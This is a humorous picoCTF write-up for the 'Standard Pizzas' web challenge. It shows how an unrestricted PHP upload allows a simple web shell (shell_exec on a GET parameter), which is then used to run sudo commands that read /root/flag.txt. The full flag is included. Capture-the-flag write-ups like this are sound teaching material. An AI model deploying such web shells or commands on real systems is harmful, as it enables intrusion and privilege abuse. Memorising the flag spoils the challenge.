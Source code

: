 ```yaml
---
title: 'PicoCTF Writeup #482'
date: 2025-08-20T10:06:40+07:00
draft: false
description: ''
tags: ['ctf']
---
```



## Hacking Profile Pictures Like It’s 2005 (picoCTF Web Exploit Writeup)

So, I tried another picoCTF challenge and this one was basically:

👨‍💻 *“A developer added profile picture uploads. What could possibly go wrong?”*

If you’ve ever touched PHP (I’m sorry) you already know the answer: **literally everything**.

The challenge: [Standard Pizzas](https://play.picoctf.org/practice/challenge/482) 🍕



## Step 1: Upload Feature? More Like Upload *Malware*

The site lets you upload an image and then proudly tells you where it lives:

```
The file duck.jpeg has been uploaded 
Path: uploads/duck.jpeg
```

As soon as I saw that, my brain went:

👉 “Wait… you’re telling me I can upload **any file** and then run it directly?”

This is basically the cybersecurity equivalent of putting the house keys under the doormat.



## Step 2: Congratulations, You Played Yourself

So I uploaded this masterpiece called `script.php`:

```php
<?php
$result = shell_exec("pwd");
echo $result;
?>
```

Then I visited `/uploads/script.php` and the site politely told me:

```
/var/www/html/uploads
```

💥 RCE achieved. PHP once again proving it’s not a bug, it’s a lifestyle.



## Step 3: PHP Webshell as a Service™

One command was cute, but I wanted **full control**.
So I made a tiny upgrade:

```php
<?php
$command = $_GET["c"];
echo shell_exec($command);
?>
```

Now I could just run commands directly in the URL:

```
/uploads/script.php?c=ls
```

At this point I felt like a 90s movie hacker typing “access mainframe” — except it actually worked.



## Step 4: Dear Root, I’m in Your Walls

The challenge said the flag was hiding in `/root`.
No problem. Let’s snoop:

```
/uploads/script.php?c=sudo -l
```

Server: “Yeah, you can sudo.”
Me: “Say no more.”

```
/uploads/script.php?c=sudo ls /root
```

Output:

```
flag.txt
```

Time for the final payload:

```
/uploads/script.php?c=sudo cat /root/flag.txt
```

And there it was:

```
picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}
```



## Step 5: PHP + Uploads = Chaos.exe

What did we learn, kids?

* If you let users upload arbitrary files and run them, you’ve basically created **free hacker hosting**.
* File extensions are lies. Never trust them.
* PHP with `shell_exec` is like giving a toddler a flamethrower.
* This challenge was basically an *Any% speedrun exploit*.



## Final Thoughts

This challenge was a nostalgia trip — straight back to the early 2000s when every site was PHP, every upload folder was writable, and every script kiddie had an edgy handle like “xXhaxor69Xx”.

So yeah. Don’t let “profile pictures” execute shell commands. Unless you want hackers to order root access with their pizza. 🍕💻



> Flag: **picoCTF{wh47\_c4n\_u\_d0\_wPHP\_a4ca6ea0}**

